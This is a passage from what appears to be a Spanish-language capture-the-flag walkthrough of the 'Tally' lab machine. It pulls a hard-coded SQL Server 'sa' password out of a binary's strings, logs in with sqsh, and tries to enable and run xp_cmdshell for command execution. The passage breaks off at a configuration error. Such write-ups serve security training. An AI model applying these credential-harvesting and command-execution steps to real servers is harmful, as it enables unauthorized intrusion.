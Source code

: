 ```bash
│           0x004013e5      33c0           xor eax, eax
│           0x004013e7      8b4dfc         mov ecx, dword [var_4h]
│           0x004013ea      33cd           xor ecx, ebp
│           0x004013ec      e8a47c0000     call fcn.00409095
│           0x004013f1      8be5           mov esp, ebp
│           0x004013f3      5d             pop ebp
└           0x004013f4      c3             ret
[0x004011a0]>
```

Poniendo ojo de lince, vemos algo que nos debería de llamar la atención:

```bash
"DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;"
```

Para el servicio ***Microsoft SQL Server***, tenemos el nombre de la base de datos **orcharddb** y la contraseña **GWE3V65#6KFH93@4GWTG2G**. Como siempre hay que guardar esta información para no perderla. Lo mismo lo podriamos lograr con los comandos `strings tester.exe` y con `rabin2 -zqq tester.exe` para ver las cadenas imprimibles del programa.

Vamos a tratar de conectarnos al servicio SQL con las credenciales que tenemos:

```bash
❯ sqsh -U 'sa' -S 10.10.10.59
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Password: 
1>
```

Vamos a tratar de ejecutar comados dentro del servidor:

```bash
1> xp_cmdshell "whoami"
2> go
Msg 15281, Level 16, State 1
Server 'TALLY', Procedure 'xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part
of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure.
For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
1>
```

Tenemos un error que nos manda debido a que el componente `xp_cmdshell`está deshabilitado como parte de las configuración de seguridad del servidor, pero no nos preocupamos ya que existe una forma de habilitar el componente.

```bash
1> sp_configure "xp_cmdshell",1
2> go
Msg 15123, Level 16, State 1
Server 'TALLY', Procedure 'sp_configure', Line 62
The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
(return status = 1)
1>
```
